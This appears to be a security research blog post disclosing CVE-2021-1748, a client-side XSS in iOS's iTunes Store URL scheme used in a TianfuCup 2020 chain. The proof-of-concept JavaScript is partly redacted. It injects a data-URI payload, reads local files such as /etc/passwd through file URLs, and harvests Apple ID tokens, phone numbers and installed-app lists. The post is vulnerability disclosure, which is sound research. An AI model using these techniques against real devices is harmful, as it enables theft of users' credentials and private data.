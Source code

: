 ```yaml
---
layout:	post
title: "Mistuned Part 1: Client-side XSS to Calculator and More"
image: /img/2021-08-04-mistuned-part-i/mistune.png
---
```


Ever since Pointer Authentication Code (PAC) has been introduced, iPhone remained standing for more than two years on various pwn contests until TianfuCup 2020 (Project Zero has reported a remote zero click exploit in 2019). Ant Security and Qihoo 360 used two different bug chains respectively to successfully gained remote code execution with userspace sandbox escape on iPhone 11 with iOS 14.2.

In a series of post, I am going to disclouse the bugs I used for full-chain remote code execution. Born with Generation Z, these bugs were introduced by iOS 3 and iOS 6 respectively, however they were still able to fully bypass various protections on a state-of-the-art mobile phone at the time.

## Client-side XSS from iOS 3

The exploit starts from a malicious page in MobileSafari. Instead of attacking MobileSafari itself, there is a well-known attack surface named URL Schemes or Universal Links. It's the resource locator for Apps. Web pages can open local apps with a formatted URL. In MobileSafari, some built-in Apple apps are trusted unconditionally, including App Store and iTunes. There is no user confirmation before inter-app navigation.

Back to [Pwn2Own 2014](https://www.securityweek.com/mobile-pwn2own-2014-iphone-5s-galaxy-s5-nexus-5-fire-phone-hacked), Jung Hoon Lee used `itmss://` to open arbitrary untrusted website in iTunes, leading to sandbox escape. An additional memory corruption bug was used to gain code execution. It has been assigned to [CVE-2014-8840](https://support.apple.com/en-us/HT204245).

```js
<script>
location = 'itmss://attacker.com';
</script>
```

iOS then introduced a trusted domain list in this URL scheme. Before loading the page, it fetches a configuration from [this URL](https://sandbox.itunes.apple.com/WebObjects/MZInit.woa/wa/initiateSession). The configuration is an XML serialized property list. The hostname of the page must match the following suffix defined in `trustedDomains` field.

```xml
<key>trustedDomains</key>
<array>
  <string>.apple.com.edgesuite.net</string>
  <string>.asia.apple.com</string>
  <string>.corp.apple.com</string>
  <string>.euro.apple.com</string>
  <string>.itunes.apple.com</string>
  <string>.itunes.com</string>
  <string>.icloud.com</string>
```

If the domain matches, iTunes Store will render the page in its `SUWebView`, which is a subclass of the deprecated `UIWebView` in HTTPS. We can't Man-in-the-middle to hijack the HTML, but any XSS in the trusted domain can inject Javascript to this app.

However, after analyzing the following methods, I found another bypass introduced by iOS 3 to achieve client-side XSS.

* `-[SUStoreController handleApplicationURL:]`
* `-[NSURL storeURLType]`
* `-[SUStoreController _handleAccountURL:]`
* `-[SKUIURL initWithURL:]`

This bug could affect a wide range of iOS versions. Part of the PoC is redacted to help protect users that stay below 14.3 due to hardware limitations or at their will.

Given certain combination of parameters, this `itms` URL will force the app to ignore the hostname but load a secondary URL provided by the query string instead: `itms://<redacted>&url=http://www.apple.com`. While the hostname still has to match the trust list, it allows plain text http communications and some domains in the list like `support.mac.com` don't have HSTS, making them vulnerable to interception. Furthermore, according to the disassembly, it trusts arbitrary data URI in addition to the allowed host names: `itms://<redacted>&url=data:text/plain,hello`. This is basically a reflected XSS since it can carry arbitrary inline HTML. 

The app always appends a question mark after the URL, trying to append extra querstring. This breaks base64 encoding, but plain text works just fine. Here's an example of the inter app script inection.

```js
String.prototype.toDataURI = function() {
  return 'data:text/html;,' + encodeURIComponent(this).replace(/[!'()*]/g, escape);
}

function payload() {  
  iTunes.alert('gotcha'); // do ya thing
}

const data = `<script type="application/javascript">(${payload})()<\/script>`.toDataURI()
const url = new URL('itms://<redacted>');
// part of the PoC is redacted to prevent abuse
url.searchParams.set('url', data);
location = url
```

The earliest firmware that has the vulnerable code is `Kirkwood7A341`, which was released back to 2009.

`SUWebView` is a subclass of `UIWebView`, so it doesn't have isolated renderer processes. A common misunderstanding for WebView is that only `WKWebView` has JIT optimization. Actually it's controlled by the `dynamic-codesigning` entitlement. iTunes Store has this entitlement to speed up `JSContext` execution, but it happens to create an environment that any working exploit (nomatter the type, JIT or DOM) in MobileSafari works here as well, without concerning about the WebContent sandbox.

Due to the system enforcement, to use `mmap(MAP_JIT)`, the process must be sandboxed. So iTunes Store still has `app-container` after all, but it's got much more access compared to WebContent and even third-party apps. It has been granted even more entitlements for privacy related access like camera and AppStore credentials. It's probably the highest privilege that shellcode could get after `jsc` interpreter had been removed from iOS.

But everything comes with a price. In this context, the exploit has only one chance to get remote code execution, or the app dies. There is no such thing like auto recover for browser tabs. It has a high demand for reliability of the exploit. Besides, this bug redirects from MobileSafari to iTunes Store, leaving significantly observable animation in the UI, so it's not ideal for real attackers.

On iOS 14, iTunes Store is not the only vector. There is a StoreKitUIService app that suffers the same flaw. The only difference is the URL Scheme is `itms-ui`, rather than `itms`. StoreKitUIService is also responsible for delievering OTA enterprise apps. It has almost no UI impact compared to the former. Unfortunately `itms-ui` is not trusted. MobileSafari warns before opening the URL. However, if the payload is delivered through iMessage, AirDrop or some 3rd-party instant messengers, it doesn't matter because such scenarios don't require extra confirmation.

This bug has been assigned to CVE-2021-1748.

## Memory Corruption-free Exploitation

Before getting into the code execution, this client-side XSS is interesting because it allows reading sensitive information and arbitrary app execution.

The `UIWebView` uses obsolete `WebScripting` API to export extra methods to Javascript. `WebScripting` translates Javascript invocations to Objective-C, with known data types automatically converted. There is an `iTunes` namespace in `globalThis` context, which is bunded to an `SUScriptInterface` instance. It has innterfaces as follows:

**Fingerprinting**. `iTunes.systemVersion()` and `userAgent` can tell the OS version and the model of SoC, which are useful for adjusting the exploit.

**Apple ID**. `iTunes.primaryAccount?.identifier` is the Apple ID for App Store and iTunes.`primaryiCloudAccount?.identifier` is the iCloud account. Besides, any outgoing http requests, no matter what the domain is, will have extra headers for Apple ID authentication. Even two-factor authentication (2FA) related tokens like `X-Apple-I-MD` and `X-Apple-I-MD-M` are included.

```js
{
  'icloud-dsid': '***',
  'x-apple-store-front': '143465-19,29',
  'x-dsid': '***',
  'x-apple-client-versions': 'iBooks/7.2; iTunesU/3.7.4; GameCenter/??; Podcasts/3.9',
  'x-mme-client-info': '<iPhone12,3> <iPhone OS;14.2;18B92> <com.apple.AppleAccount/1.0 (com.apple.MobileStore/1)>',
  'x-apple-i-timezone': 'GMT+8',
  'x-apple-i-client-time': '2020-11-06T14:46:07Z',
  'x-apple-i-md-rinfo': '17106176',
  'x-apple-adsid': '***',
  'x-apple-connection-type': 'WiFi',
  'x-apple-partner': 'origin.0',
  'x-apple-i-locale': 'zh_CN',
  'x-apple-i-md-m': '***',
  'x-apple-i-md': '***'
}
```

**Disk space**. `iTunes.diskSpaceAvailable()` tells the available disk space of the phone.

**Telephony**. `iTunes.telephony` is a namespace that gives the phone number, operator and provider of the victim. Imagine this, there is no need to ask the number for a person that attractives you in a party. Just AirDrop the bait and wait for response.

**Reading textual files (within the container)**. `SUScriptInterface` has a custom AJAX implementation that doesn't enforce same-origin policy. The only limit is that the hostname must match a certain trusted list (different from the former). The implementation is based on `NSURL` and it doesn't check for the scheme, so I can use file URLs to read a local path, where the hostname will be discarded: `file://r.mzstatic.com/etc/passwd`. Unfortunately the result is `NSString` backed so it doesn't support binary data. After all, this app has no direct access to the full disk because of the sandbox.

**Arbitrary app enumeration and execution**. `iTunes.installedSoftwareApplications` is an array for all the installed apps. It supports launching app by identifier, so here is how I managed to launch calculator from web without touching any modern memory safety mitigations:

```js
const app = iTunes.softwareApplicationWithBundleID_('com.apple.calculator')
app.launchWithURL_options_suspended_('calc://1337', {}, false);
```

![Calculator Demo](/img/2021-08-04-mistuned-part-i/calc.gif)

## Conclusion

CVE-2021-1748 is just anther fresh example of my previous BlackHat Talk [Cross-site Escape](https://i.blackhat.com/eu-20/Thursday/eu-20-Zhou-Cross-Site-Escape-Pwning-MacOS-Safari-Sandbox-The-Unusual-Way.pdf). A client side XSS disarms the sandbox and exposes a bigger attack surface by exposing extra methods to JavaScript. It doesn't even need memory corruption at this point to launch Calculator app.

In the upcoming posts, I'll introduce a secondary UAF bug (CVE-2021-1864) to gain various memory primitives, build arbitrary invocation, and finally bypass both PAC and APRR to load arbitrary shellcode in the context of iTunes Store app.